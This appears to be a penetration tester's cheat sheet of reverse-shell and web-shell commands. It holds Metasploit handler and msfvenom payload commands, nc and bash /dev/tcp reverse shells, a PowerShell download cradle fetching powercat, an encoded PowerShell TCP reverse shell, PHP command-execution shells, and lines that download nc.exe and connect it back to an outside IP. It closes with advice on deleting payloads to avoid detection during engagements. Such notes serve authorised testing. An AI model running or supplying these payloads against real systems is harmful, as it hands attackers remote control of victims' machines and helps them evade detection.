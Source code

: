 [Revshells](https://www.revshells.com)
[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[ASPX Reverse Shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)
[PHP Reverse Shell](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php)
```bash
msfconsole -q -x 'use exploit/multi/handler;set LHOST tun0; set LPORT 4443; run'

msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 8443; run'

msfconsole -q -x 'use exploit/multi/handler;set payload linux/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 8443; run'
```

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.8 LPORT=4443 -f elf > shell.elf

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $ip 443 >/tmp/f
bash -c 'bash -i >& /dev/tcp/$ip/443 0>&1'

python3 -c 'import pty; pty.spawn("/bin/bash")' 
stty raw -echo && fg
```


```bash
msfconsole -q -x 'use exploit/windows/smb/smb_delivery; set LHOST tun0; set LPORT 8443; set SRVHOST 10.10.14.18; run'
use exploit/windows/smb/smb_delivery

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4443 -f exe > shell.exe
```
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.8/powercat.ps1');powercat -c 10.10.14.3 -p 443 -e powershell"

```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.237",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
powershell -e <payload>
```

```php
<?php system($_GET['cmd']) ?> 
<?php system($_REQUEST['cmd']) ?> 
<?php echo shell_exec($_GET['cmd']); ?>
<?php echo shell_exec($_REQUEST['cmd']); ?>
system("powershell -c curl http://10.10.14.6/nc.exe -o C:\\programdata\\nc.exe");
system("C:\\programdata\\nc.exe 10.10.14.6 1337 -e powershell.exe");
```


Depending on the engagement type (i.e., a black box evasive assessment), we may need to attempt to go undetected and `cover our tracks`. We are often helping our clients test their capabilities to detect a live threat, so we should emulate as much as possible the methods a malicious attacker may attempt, including attempting to operate stealthily. This will help our client and save us in the long run from having files discovered after an engagement period is over. In most cases, when attempting to gain a shell session with a target, it would be wise to establish a reverse shell and then delete the executed payload. Also, we must document every method we attempt, what worked & what did not work, and even the names of the payloads & files we tried to use. We could include a sha1sum or MD5 hash of the file name, upload locations in our reports as proof, and provide attribution.